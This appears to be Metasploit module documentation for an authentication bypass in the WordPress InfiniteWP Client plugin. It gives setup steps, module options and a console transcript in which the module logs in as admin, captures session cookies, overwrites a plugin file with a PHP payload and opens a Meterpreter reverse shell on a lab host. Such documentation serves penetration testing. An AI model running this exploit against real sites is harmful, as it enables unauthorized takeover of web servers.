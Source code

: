 ## Vulnerable Application

### Description

This module exploits an authentication bypass in the WordPress
InfiniteWP Client plugin to log in as an administrator and execute
arbitrary PHP code by overwriting the file specified by `PLUGIN_FILE`.

The module will attempt to retrieve the original `PLUGIN_FILE` contents
and restore them after payload execution. If `VerifyContents` is set,
which is the default setting, the module will check to see if the
restored contents match the original.

Note that a valid administrator username is required for this module.

WordPress >= 4.9 is currently not supported due to a breaking WordPress
API change. Tested against 4.8.3.

### Setup

1. Install WordPress 4.8.3 or older
2. Download <https://downloads.wordpress.org/plugin/iwp-client.1.9.4.4.zip>
3. Follow <https://wordpress.org/plugins/iwp-client/#installation>

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets InfiniteWP Client versions < 1.9.4.5.

## Options

### USERNAME

Set this to a known, valid administrator username. Authentication will
be bypassed for this user.

### PLUGIN_FILE

Set this to a plugin file to insert the payload into, relative to the
plugins directory, which is normally `/wp-content/plugins`. The file
must exist and be writable by the web user. It will be overwritten and
later restored.

### VerifyContents

Verify that the restored contents of `PLUGIN_FILE` match the original.
This is the default setting.

## Scenarios

### InfiniteWP Client 1.9.4.4 on WordPress 4.8.3

```
msf > use exploit/unix/webapp/wp_infinitewp_auth_bypass
msf exploit(unix/webapp/wp_infinitewp_auth_bypass) > options

Module options (exploit/unix/webapp/wp_infinitewp_auth_bypass):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   PLUGIN_FILE  index.php        yes       Plugin file to edit
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       The base path to the wordpress application
   USERNAME     admin            yes       WordPress username
   VHOST                         no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   InfiniteWP Client < 1.9.4.5


msf exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rport 8000
rport => 8000
msf exploit(unix/webapp/wp_infinitewp_auth_bypass) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(unix/webapp/wp_infinitewp_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] WordPress 4.8.3 is a supported target
[*] Found version 1.9.4.4 in the custom file
[+] The target appears to be vulnerable.
[*] Bypassing auth for admin at http://127.0.0.1:8000/
[+] Successfully obtained cookie for admin
[*] Cookie: wordpress_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CgtWIC1eZeuTo2twb615tUCpB4LEUzucWE5qaBl5dgDg%7C3f03c999c52281e3da48bef702b8c8780c3f041b2bba9f222f5d9756cbb18541; wordpress_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CgtWIC1eZeuTo2twb615tUCpB4LEUzucWE5qaBl5dgDg%7C3f03c999c52281e3da48bef702b8c8780c3f041b2bba9f222f5d9756cbb18541; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CgtWIC1eZeuTo2twb615tUCpB4LEUzucWE5qaBl5dgDg%7Ca0f3f416f7c60a7e0ea1b17af88d4a5e38d96141451f94fe27f605806f03f0c2; wordpress_sec_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CsVlsTRrZ8s8PgSudfIbMXr16rVrlnVz28mENB1jRSOP%7C5ed6dd8146701a38b741bf98cde81cc2b67736b88ea80a10ceba8cf5326b949e; wordpress_sec_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CsVlsTRrZ8s8PgSudfIbMXr16rVrlnVz28mENB1jRSOP%7C5ed6dd8146701a38b741bf98cde81cc2b67736b88ea80a10ceba8cf5326b949e; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CsVlsTRrZ8s8PgSudfIbMXr16rVrlnVz28mENB1jRSOP%7Cfeffe683bdfaaa670102e6564130394440510bf97e1ad09713ef1c3aa5627bfc;
[+] Successfully logged in as admin
[*] Retrieving original contents of /wp-content/plugins/index.php
[+] Successfully retrieved original contents of /wp-content/plugins/index.php
[*] Contents:
<?php
// Silence is golden.
[*] Overwriting /wp-content/plugins/index.php with payload
[*] Acquired a plugin edit nonce: 74cde501ca
[*] Edited plugin file index.php
[+] Successfully overwrote /wp-content/plugins/index.php with payload
[*] Requesting payload at /wp-content/plugins/index.php
[*] Restoring original contents of /wp-content/plugins/index.php
[*] Sending stage (38288 bytes) to 192.168.56.1
[*] Acquired a plugin edit nonce: 74cde501ca
[*] Edited plugin file index.php
[+] Current contents of /wp-content/plugins/index.php match original!
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:51923) at 2020-02-07 12:11:28 -0600

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : c7f8fbe7b083
OS          : Linux c7f8fbe7b083 4.19.76-linuxkit #1 SMP Thu Oct 17 19:31:58 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
